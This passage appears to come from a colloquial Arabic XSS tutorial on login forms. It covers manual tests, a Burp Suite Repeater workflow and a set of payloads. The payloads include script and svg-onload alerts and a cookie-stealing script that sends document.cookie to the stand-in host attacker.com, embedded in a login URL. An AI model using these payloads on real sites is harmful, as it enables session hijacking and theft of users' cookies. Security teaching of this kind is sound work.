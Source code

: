 ##### **ج. استغلال Login Forms**
فورمات تسجيل الدخول بتكون ضعيفة لو الموقع بيعرض مدخلات اليوزر أو الباسورد في رسايل الخطأ أو الـ URL من غير تصفية.

###### **اختبار يدوي:**
1. افتح فورم تسجيل الدخول، وادخل يوزر زي:
   ```html
   <script>alert('XSS')</script>
   ```
2. لو الموقع طلّع رسالة زي "اسم المستخدم <script>alert('XSS')</script> غلط" والسكربت اشتغل، يبقى فيه ثغرة.
3. أو لو المدخل بيظهر في الـ URL:
   ```
   example.com/login?username=<script>alert('XSS')</script>
   ```

###### **استخدام Burp Suite:**
1. التقط طلب تسجيل الدخول في Burp.
2. ابعت الطلب للـ Repeater.
3. استبدل اليوزر أو الباسورد بـ:
   ```html
   <svg onload=alert('XSS')>
   ```
4. شوف لو الكود اتعرض في الـ Response أو رسالة الخطأ.

---

**خلاصة بالعامية:**
فورم اللوجن زي البواب اللي المفروض يكون حذر، بس لو طلّع البيانات زي ما هي في رسالة خطأ، يبقى بيديك فرصة تحط كود خبيث وتخلّيه يشتغل.

---

#### **الخطوة 2: كتابة Payloads فعالة**
لما تعرف إن حقل البحث، رسالة الخطأ، أو فورم اللوجن ضعيف، هتبدأ تكتب **Payloads** تناسب كل حالة. هنا أمثلة:

##### **1. Payload بسيط للاختبار:**
```html
<script>alert(document.cookie)</script>
```
- استخدمه في حقل البحث أو الـ URL:
  ```
  example.com/search?query=<script>alert(document.cookie)</script>
  ```
- لو اشتغل، يبقى تقدر تسرق الكوكيز.

##### **2. Payload لسرقة الكوكيز:**
```html
<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
```
- في حقل البحث أو فورم اللوجن:
  ```
  example.com/login?username=<script>new Image().src='attacker.com/log?cookie='+document.cookie;</script>
  ```
